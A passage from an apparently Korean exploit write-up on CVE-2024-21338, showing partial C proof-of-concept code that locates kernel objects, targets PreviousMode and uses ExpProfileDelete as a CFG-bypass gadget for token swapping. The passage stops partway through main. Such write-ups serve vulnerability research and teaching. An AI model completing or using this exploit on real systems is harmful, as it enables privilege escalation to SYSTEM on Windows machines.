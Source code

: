 `ExpProfileDelete` 내에서 `ObfDereferenceObjectWithTag` 매크로 호출 시점의 rcx가 `0x4141414141414141`로 나오네요. 드디어 우리가 원하는 주소를 감소시킬 수 있습니다!

`ExpProfileDelete` 가 아니더라도 조건을 만족하는 함수는 더 있을 수 있습니다. 단, 함수의 로직이 복잡할수록 우리가 의도한 동작 외 다른 코드를 실행하며 크래시가 발생할 가능성이 높아집니다. 때문에 비교적 간단한 함수를 타겟으로 찾는 것이 좋을 것 같네요.

아래는 CVE-2024-21338 취약점으로 PreviousMode를 변조하고 Token Swapping을 수행하는 최종 PoC 코드입니다

```c
#include <stdio.h>
#include "defines.h"

#define STATUS_INFO_LENGTH_MISMATCH 0xc0000004
#define DEVICE_NAME "\\\\?\\AppID"

// IOCTL 0x22A018
typedef struct {
	PVOID arg1;
	PVOID objptr;
	PVOID cfgptr;
	PVOID unknown;
} INPUT_BUFFER;

_NtQuerySystemInformation pNtQuerySystemInformation;
_NtFsControlFile pNtFsControlFile;
_NtWriteVirtualMemory pNtWriteVirtualMemory;
_NtReadVirtualMemory pNtReadVIrtualMemory;
_NtDeviceIoControlFile pNtDeviceIoControlFile;

void GetNtFunction() {...}
PVOID GetImageBase(const char* ModuleName) {...}
PVOID GetFILE_OBJECT_Address(){...}
PVOID GetObj(PULONGLONG objptr, ULONG pid, HANDLE handle){...}

int main() {
	PVOID KTHREAD = NULL;
	PVOID SYSTEM_EPROCESS = NULL;
	PVOID EPROCESS = NULL;
	PVOID PreviousMode = NULL;
	PVOID NTOSKRNL_BASE = NULL;

	ULONG dwbytes = 0;
	GetNtFunction();

	DWORD pid = GetCurrentProcessId();

	HANDLE hThread = OpenThread(THREAD_QUERY_INFORMATION, TRUE, GetCurrentThreadId());
	GetObj(&KTHREAD, pid, hThread);
	printf("[+] Current KTHREAD: %p\n", KTHREAD);

	PreviousMode = (UINT64)KTHREAD + 0x232;
	printf("[+] PreviousMode address: %p\n", PreviousMode);

	HANDLE hProc = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, pid);
	GetObj(&EPROCESS, pid, hProc);
	printf("[+] Current EPROCESS: %p\n", EPROCESS);

	GetObj(&SYSTEM_EPROCESS, 4, (HANDLE)4);
	printf("[+] System EPROCESS: %p\n", SYSTEM_EPROCESS);

	NTOSKRNL_BASE = GetImageBase("ntoskrnl.exe");
	printf("[+] ntoskrnl.exe base address : %p\n", NTOSKRNL_BASE);

	PVOID ExpProfileDelete = (UINT64)NTOSKRNL_BASE + 0xA01FD0; // kcfg bypass gadget
	printf("[+] ExpProfileDelete function address : %p\n", ExpProfileDelete);
```